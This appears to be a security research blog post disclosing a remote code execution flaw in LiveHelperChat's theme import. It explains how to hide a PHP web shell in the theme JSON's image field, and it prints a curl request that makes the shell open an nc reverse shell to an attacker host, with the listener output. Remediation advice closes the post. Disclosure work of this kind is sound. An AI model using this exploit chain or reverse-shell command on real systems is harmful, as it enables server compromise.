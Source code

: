 ```yaml
---
layout: post
title: "LiveHelperChat - Remote Code Execution via Vulnerable Theme Upload Function"
categories: Research
---
```

## LiveHelperChat - Remote Code Execution via Vulnerable Theme Upload Function

# Summary:
Upon logging in, an import functionality has been identified that accepted input in a JSON format. The JSON format was analyzed and a base64 encoded PNG image input has been identified. By manipulating the image input parameters, it was possible to upload a malicious php file in order to execute arbitrary code.

# Plugin informations:
Name: Live Helper Chat
Homepage: https://livehelperchat.com/

# Proof of Concept (PoC):
Upon first inspection, there are no themes currently uploaded on the web application. The first step would be to try and upload a PHP file directly in one of the file inputs, however this does not seem to work in our case. 

In order to exploit this vulnerability, we must first create basic theme. Let’s move to the vulnerable directory.

> **/lhc_web/index.php/site_admin/abstract/new/WidgetTheme**{: style="color: red"}

We fill up the required inputs and parameters with dummy data. Then, we go back and download the theme from the Widget directory located here:

> **/lhc_web/index.php/site_admin/abstract/edit/WidgetTheme/1**{: style="color: red"}

When the file is downloaded, we open it and modify the **offline_image_data parameter** as well as the **offline_image_data_ext** parameter
&nbsp;

**Payload:** base64(Image Header + PHP Web Shell)
&nbsp;

**Offline_image_data** is replaced with the payload.
**Offline_image_data_ext** is simply set to “php”.
&nbsp;

The exploit should look something like this:
&nbsp;

```json
{
    "name": "Test",
    "name_company": "Peter Winter",
    "..[SNIP]..": "..[SNIP]..",
    "offline_image_data": "base64_payload",
    "offline_image_data_ext": "php"
}
```
&nbsp;
After the theme with the exploit is prepared it is uploaded on the web server in the following page:
16px
> **/lhc_web/index.php/site_admin/theme/import**{: style="color: red"}
&nbsp;

![import theme]({{ site.baseurl }}/assets/images/image1.png){:.images}
&nbsp;

After the upload is successful, the user must edit the imported theme at the Widget themes section. When the page is loaded, so is the php web shell. In our case, we have identified the path where the shell has been uploaded by viewing the page source and viewing the file path of the **offline_image_data** parameter:

> **/lhc_web/var/storagetheme/2018y/06/03/2/2c36ce9c8ebb012be3bcb3acb60abbc3.php**{: style="color: red"}
&nbsp;

Our webshell can execute code on the server by using “cmd” as a parameter. The user can then proceed to set up a reverse shell to their machine by using nc. We then proceed to establishing a reverse shell connection by issuing the following command through the GET method. Firstly, we start a listener on our local machine.
&nbsp;

{% highlight bash %}
> $ nc -lnvp 60000
{% endhighlight %}
&nbsp;

Then, we proceed to send a GET request to the webserver by leveraging our PHP web shell.
&nbsp;

{% highlight bash %}
> $ curl -X GET \ 
http://victim_ip/lhc_web/var/storagetheme/2018y/06/03/2/2c36ce9c8ebb012be3bcb3acb60abbc3.php?cmd=nc+attacker_ip+60000+-e+/bin/bash
{% endhighlight %}
&nbsp;

If the connection is successful, we should get the following message on our listener. Upon issuing the id command, we find out that we are logged in as the www-data user.
&nbsp;

{% highlight bash %}
> $  nc -lnvp 60000
listening on [any] 60000 ...
connect to [attacker_ip] from (UNKNOWN) [vitim_ip] 40248
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
{% endhighlight %}
&nbsp;

# Some of the recommendations for remediating this vulnerability are listed below:

- Restrict file types accepted for upload (check the file extension and only allow certain files to be uploaded.)
- Use a whitelist approach instead of a blacklist. 
- Check for double extensions such as .php.png. 
- Check for files without a filename like .htaccess (on ASP.NET, check for configuration files like web.config). 
- Change the permissions on the upload folder so the files within it are not executable. If possible, rename the files that are uploaded.
- Check OWASP page for unrestricted upload for the rest of best-practice solutions.


# Vulnerability found by:
Me and [0xcela](https://twitter.com/0xcela)
